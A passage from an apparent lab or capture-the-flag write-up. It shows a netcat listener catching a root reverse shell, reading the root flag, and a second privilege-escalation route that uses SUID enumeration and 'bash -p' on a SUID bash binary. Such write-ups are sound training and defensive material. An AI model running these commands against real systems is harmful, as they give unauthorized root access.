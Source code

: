 ```
listening on [any] 6969 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.8] 39834
whoami 
root
cat /root/root.txt
SECRETSECRETSECRETSECRET
```

### 4.2 Privilege Escalation Method 2

Executing a simple SUID enumeration  we can see that `/usr/bin/bash` is a SUID binary so we can execute the next command to get a root shell.

```
-bash-5.2$ find / -perm /4000 2>/dev/null
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/mount
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/bash
/usr/bin/umount
/usr/bin/ntfs-3g
/usr/bin/fusermount3
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/su
/usr/sbin/pppd
/usr/lib/openssh/ssh-keysign
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/xorg/Xorg.wrap
-bash-5.2$ /usr/bin/bash -p
bash-5.2# whoami
root
```

## 5. References

* SUID bash ([https://gtfobins.github.io/gtfobins/bash/#suid](https://gtfobins.github.io/gtfobins/bash/#suid))
